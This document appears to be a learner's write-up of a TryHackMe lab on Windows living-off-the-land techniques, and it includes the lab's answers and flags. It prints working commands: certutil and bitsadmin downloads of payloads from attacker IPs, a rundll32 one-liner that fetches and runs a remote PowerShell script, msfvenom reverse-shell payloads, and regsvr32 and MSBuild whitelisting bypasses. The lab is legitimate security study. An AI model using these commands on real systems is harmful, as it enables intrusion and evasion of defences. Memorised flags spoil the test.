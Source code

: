 # Living Off The Land - Medium

1. [Windows Sysinternals](#windows-sysinternals)
2. [LOLBAS Project](#lolbas-project)
3. [File Operations](#file-operations)
4. [File Execution](#file-execution)
5. [Application Whitelisting Bypasses](#application-whitelisting-bypasses)
6. [Other Techniques](#other-techniques)

## Windows Sysinternals

* Living Off The Land - ideology of using Microsoft-signed programs, scripts & libraries to blend in and evade defensive controls.

* Windows Sysinternals - set of tools & advanced system utilities to manage, troubleshoot & diagnose Windows system.

* Categories in Sysinternals Suite include:

  * Disk management
  * Process management
  * Networking tools
  * System information
  * Security tools

* To use Windows Sysinternals tools, we need to accept Microsoft license agreement by passing ```-accepteula``` argument in command prompt.

* Sysinternals Live allows one to use the Sysinternals suite without installation; in File Explorer, we can access it by using the path ```\\live.sysinternals.com\tools```.

## LOLBAS Project

* [LOLBAS](https://lolbas-project.github.io/) (Living Off The Land Binaries and Scripts) - project to gather & document Microsoft built-in tools used for Living Off The Land techniques.

```markdown
1. Using the search bar, find the ATT&CK ID: T1040. What is the binary's name? - Pktmon.exe

2. Use the search bar to find more information about MSbuild.exe. What is the ATT&CK ID? - T1127.001

3. Use the search bar to find more information about Scriptrunner.exe. What is the function of the binary? - Execute
```

## File Operations

* certutil - Windows utility for handling certification services; however it is used for ingress tool transfer and obfuscation.

```shell
certutil -urlcache -split -f http://10.10.15.16/payload.exe C:\Windows\Temp\payload.exe
```

* BITSAdmin - tool to create, download, upload Background Intelligent Transfer Services (BITS); red team operators use it to download & execute malicious payload in compromised machine.

```shell
bitsadmin.exe /transfer /download /priority Foreground http://10.10.15.16/payload.exe C:\Users\thm\Desktop\payload.exe
```

* FindStr - to find text & string patterns in files; or to download remote files from SMB shared folders within network.

```shell
findstr /V dummystring \\Machine\sharedfolder\test.exe > C:\Windows\Temp\test.exe
```

```shell
#according to given task
bitsadmin.exe /transfer /download /priority Foreground http://tryhackme.com/robots.txt C:\Users\thm\Desktop\robots.txt

#decode the flag file
certutil -decode enc_thm_0YmFiOG_file.txt payload.txt
```

```markdown
1. What is the file name? - enc_thm_0YmFiOG_file.txt

2. What is the file content? - THM{ea4e2b9f362320d098635d4bab8a568e}
```

## File Execution

* File Explorer - file manager and system component; can help in Indirect Command Execution.

```shell
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

* WMIC - Windows Management Instrumentation (WMIC) manages Windows components; can execute binaries too.

```shell
wmic.exe process call create calc
```

* Rundll32 - loads & runs DLL files within the system; can be leveraged to run payloads and execute scripts.

```shell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
#embeds a JS component, eval() to execute calc.exe binary

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
#for PowerShell scripts
```

## Application Whitelisting Bypasses

* Regsvr32 - command-line tool to register/unregister DLLs in Windows Registry; it can also be used to execute arbitrary binaries & bypass Windows Application Whitelisting.

```shell
#on attacker machine
#create malicious DLL and setup listener
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll

msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 10.10.15.16

set LPORT 443

exploit

#now deliver the payload DLL to victim machine
python3 -m http.server 1337
```

```shell
#on victim machine
certutil -urlcache -split -f http://10.10.15.16:1337/live0fftheland.dll C:\Users\thm\Downloads\live0fftheland.dll

#then we need to execute DLL using regsvr32.exe
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
#we receive reverse shell on attacker machine
```

* Bash - bash.exe is for interacting with Linux and is a part of WSL (Windows Subsystem for Linux); bash.exe can be used to execute payloads and bypass app whitelisting.

```shell
bash.exe -c "C:\Users\thm\payload.exe"
#using this we can execute any unsigned payload
```

## Other Techniques

* Shortcuts - symbolic links; can be modified to gain initial access, privesc or persistence by setting target section to execute arbitrary files.

* No PowerShell - running PowerShell code without spawning PowerShell; this can be done with the help of tools such as PowerLessShell.

```shell
#on attacker machine
#clone the PowerLessShell repo
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git

#generate PowerShell payload
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.11.85.177 LPORT=4444 -f psh-reflection > liv0ff.ps1

#run metasploit framework to listen and wait for reverse shell
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set LHOST 10.11.85.177; set LPORT 4444; exploit"

#in new tab, go to PowerShellLess directory
#and convert payload to be compatible with msbuild
python2 PowerLessShell.py -type powershell -source ~/liv0ff.ps1 -output ~/liv0ff.csproj

#now we need to transfer output file to victim machine
python3 -m http.server 1337


#on victim Windows machine
certutil -urlcache -split -f http://10.11.85.177:1337/liv0ff.csproj liv0ff.csproj

#build .csproj file and get reverse shell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\thm\Desktop\liv0ff.csproj
```

```markdown
1. What is the content of the flag file? - THM{23005dc4369a0eef728aa39ff8cc3be2}
```

